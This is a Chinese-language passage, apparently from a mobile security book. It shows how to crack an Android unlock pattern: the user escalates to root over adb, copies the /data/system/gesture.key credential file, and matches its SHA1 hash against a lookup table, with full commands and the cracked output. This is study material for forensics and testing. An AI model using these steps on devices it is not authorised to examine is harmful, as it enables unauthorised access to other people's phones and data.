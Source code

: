 ### 从 signature.key 文件中破解 SHA1 哈希

现在，让我们看看如何从`gesture.key`文件中破解散列。

如前所述，当用户设置模式时，它将作为 SHA1 散列存储在`gesture.key`文件中。将此散列与包含所有可能散列的字典进行比较可以解决问题。

为此，首先将`gesture.key`文件放到本地机器上。您可以按照如下所示的步骤执行此操作：

```
$adb shell
shell@android$su
root@android#cp /data/system/gesture.key /mnt/sdcard

```

上面显示的命令将把`gesture.key`文件复制到 SD 卡上。

现在，使用以下命令将此文件拉到本地计算机上：

```
$adb pull /mnt/sdcard/gesture.key

```

现在，在任何类似 Unix 的机器上运行以下命令来破解哈希：

```
$ grep -i `xxd -p gesture.key` AndroidGestureSHA1.txt
14789;00 03 06 07 08;C8C0B24A15DC8BBFD411427973574695230458F0
$

```

正如您在前面的摘录中所看到的，我们已经破解了模式，即 14789。

前面的命令检查来自`gesture.key`的散列在`AndroidGestureSHA1.txt` 文件中是否匹配，该文件包含所有可能的 SHA1 散列及其明文。

以下 shell 脚本可用于执行同一命令：

```
$ cat findpattern.sh 
grep -i `xxd -p gesture.key` AndroidGestureSHA1.txt
$

```

您可以将`gesture.key`和`AndroidGestureSHA1.txt`文件与此 shell 脚本一起放置并运行它。它将给出相同的结果：

```
$ sh findpattern.sh 
14789;00 03 06 07 08;C8C0B24A15DC8BBFD411427973574695230458F0
$

```

## 使用 adb 绕过密码/PIN

### 注
